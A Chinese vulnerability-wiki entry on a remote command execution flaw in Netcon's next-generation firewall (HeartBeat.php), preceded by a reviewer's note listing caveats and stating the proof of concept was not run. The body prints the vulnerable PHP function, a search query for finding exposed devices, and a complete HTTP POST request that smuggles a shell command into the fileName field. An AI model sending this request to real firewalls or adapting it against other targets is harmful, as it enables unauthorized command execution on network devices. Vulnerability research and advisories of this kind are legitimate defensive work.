



# 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：网康下一代防火墙
- 本文讨论：NS_Rpc_HeartBeat.delTestFile fileName
- 版本、权限与配置前提：dirname需/var/www/tmp，exec_cmd可执行；认证/版本未明
- 资料类型：RPC命令注入源码分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- root所有的文件不等于以root执行，需setuid/调用身份证据才能断定Root权限
- id&gt;2.txt相对路径受工作目录影响，最终访问URL未文本给出
- 与SSLVPN_Resource.deleteImage同router但不同方法/根因，不能直接合并
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- exec_cmd权限位/执行逻辑、认证和固件待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下


出现漏洞的文件 applications/Models/NS/Rpc/HeartBeat.php



```
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```http
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```



访问写入的文件



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
